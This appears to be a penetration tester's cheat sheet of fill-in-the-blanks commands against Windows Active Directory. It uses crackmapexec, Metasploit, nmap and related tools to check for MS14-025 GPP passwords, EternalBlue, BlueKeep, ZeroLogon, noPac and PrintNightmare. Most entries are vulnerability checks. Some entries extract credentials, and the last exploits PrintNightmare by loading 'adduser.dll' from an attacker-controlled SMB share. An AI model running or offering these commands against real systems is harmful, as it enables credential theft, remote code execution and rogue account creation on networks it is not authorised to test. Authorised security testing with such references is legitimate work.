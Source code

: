 # CVE

## Check & Exploit GPP SYSVOL (MS14-025) - cme

```
cme smb <domain-controller> -u <user> -p <password> -d <domain> -M gpp_password
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check & Exloit GPP SYSVOL (MS14-025) - msf

```
msfconsole -x "use scanner/smb/smb_enum_gpp;set RHOST <domain-controller>;set SMBDomain <domain>;set SMBUser <user>;set SMBPass <password>"
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check SMB vulnerabilities

```
nmap -Pn --script smb-vuln* -p139,445 <target>
```

= target: $TARGETS/computers.list

## Check Eternal Blue (MS17-010) - cme

```
cme smb <target> -M ms17
```

= target: $TARGETS/computers.list

## Check BlueKeep (CVE-2019-0708)

```
rdpscan <target>
```

= target: $TARGETS/computers.list

## Check Eternal Blue (MS17-010) - nmap

```
nmap -Pn --script smb-vuln-ms17-010 -p139,445 <target>
```

= target: $TARGETS/computers.list

## Check Zero Logon (CVE-2020-1472)

```
cme smb <domain-controller> -M zerologon
```

= domain-controller: $DC

## Check noPac (CVE-2021-42278 and CVE-2021-42287)

```
cme smb <domain-controller> -u <user> -p '<password>' -d <domain> -M nopac
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check Print Nightmare with Docker (CVE-2021-34527)

```
docker run -v "<target>:/target.txt"-it itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $TARGETS/computers.list

## Check Print Nightmare with local install (CVE-2021-34527)

```
itwasalladream -u <user> -p '<password>' -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $TARGETS/computers.list

## Exploit Print Nightmare (CVE-2021-34527)

```
CVE-2021-1675 <domain>/<user>:<password>@<target> '\\<my_ip>\public\adduser.dll'
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
